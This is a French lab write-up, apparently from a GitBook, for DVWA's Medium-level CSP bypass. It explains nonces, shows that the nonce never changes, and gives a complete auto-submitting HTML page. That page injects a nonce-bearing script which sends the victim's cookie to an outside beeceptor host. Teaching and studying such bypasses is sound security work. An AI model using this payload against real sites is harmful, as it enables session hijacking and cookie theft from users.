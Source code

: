 # Niveau "Medium"

Le niveau "Medium" nous invite à trouver une façon de déclencher une boite de dialogue Javascript :

![](../../../../.gitbook/assets/cccabce2290fb6a5f8811fe644848b02.png)

Analysons la nouvelle politique CSP pour ce niveau :

![](../../../../.gitbook/assets/2812dead72835a747b67eedf51430293.png)

```markup
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```

Soit pour la directive `script-src` :

* `'self'` : Autorise l'exécution de ressources fournies par la même origine
* `'unsafe-inline'` : Autorise les scripts de type `<script></script>` \(ou encore dans un event HTML par exemple\)
* `'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='` : seul le script ayant ce nonce pourra être exécuté

Voyons de plus près comment fonctionne le [`nonce`](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src):

![](../../../../.gitbook/assets/a27d7b07f73f194c7b3d45452eae360f.png)

Le nonce est donc un identifiant unique et renouvelé à chaque fois que le serveur transmet la politique CSP. De plus, il est important que ce nonce ne soit pas devinable \(guessable\) sans quoi un contournement de la politique CSP serait possible.

Un script autorisé portera alors le nonce comme ceci \(ne pas oublier qu'une implémentation sécurisée portera un nonce doit dynamique\) :

```markup
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">
  // Je suis un script autorisé car je connais le nonce
</script>
```

On effectue quelques requêtes **`GET`** sur le endpoint `/csp` de DVWA : surprise le `nonce` ne change jamais :

![](../../../../.gitbook/assets/15651a92e46dc09de721eac0a66c064e.png)

Connaissant d'avance le `nonce`, il est alors facile de créer un script qui sera accepté par l'application :

![](../../../../.gitbook/assets/e06ebf5c290ee9493e7719a18aba4554.png)

Afin de piéger notre victime, nous utiliserons la même technique que pour le niveau "Low" qui est de forger une page malicieuse effectuant la requête **`POST`** :

```markup
<html>
  <head>
    <title>Exploitation POST XSS</title>
  </head>

  <body>
    <p>Post reflected XSS !</p>
      <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
        <input type="text" name="include" value="<script nonce='TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='>fetch('https://cspbypass.free.beeceptor.com?cookie=' + document.cookie);</script>">
        <button type="submit">Envoyer le message</button>
      </form>

    <script>document.forms['postExploitXSS'].submit();</script>
    </body>
</html>
```

Finalement, lorsque l'utilisateur \(authentifiée\) visitera notre page, l'attaquant récupérera son jeton \(la victime sera redirigée de notre site malicieux vers le challenge DVWA\) :

![](../../../../.gitbook/assets/d7f9cc6cfa53044f5eb35f5e34af4119.png)








